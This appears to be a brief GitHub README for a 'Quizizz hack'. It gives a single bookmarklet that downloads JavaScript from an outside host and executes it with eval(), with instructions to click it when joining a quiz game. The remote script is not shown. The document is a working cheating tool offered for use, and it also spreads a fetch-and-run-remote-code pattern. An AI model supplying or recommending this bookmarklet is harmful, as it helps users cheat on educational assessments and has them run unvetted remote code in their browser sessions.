 # Quizizz hack
## Bookmarklet
`javascript:fetch('https://tfdrf.us.to/GamerHax/Quizizz/Quizizz.js').then(function(response){response.text().then(function(text){eval(text);done();});});`  
Click this bookmarklet before you join a game, when you are entering your name.
